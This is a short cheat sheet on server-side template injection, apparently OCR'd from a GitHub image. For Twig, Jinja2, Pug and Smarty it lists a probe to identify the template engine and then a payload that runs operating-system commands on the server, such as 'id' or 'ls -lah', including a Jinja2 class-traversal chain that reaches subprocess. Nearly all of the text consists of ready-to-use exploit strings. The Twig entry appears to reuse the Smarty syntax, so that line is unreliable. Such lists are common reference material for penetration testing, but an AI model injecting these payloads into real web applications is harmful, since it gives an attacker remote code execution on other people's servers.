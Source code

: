 # Find the engine
## Twig (PHP)
`{{7*'7'}} -> 49`
### Exploit
`{system("id")}`
## Jinja2 (Python)
`{{7*'7'}} -> 7777777`
### Exploit
`{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(["ls", "-lah"])}}`
## Jade/Pug (JS)
`#{7*7} -> 49`
### Exploit
`#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`
## Smarty (PHP)
`{'Hello'|upper} -> HELLO`
### Exploit
`{system("id")}`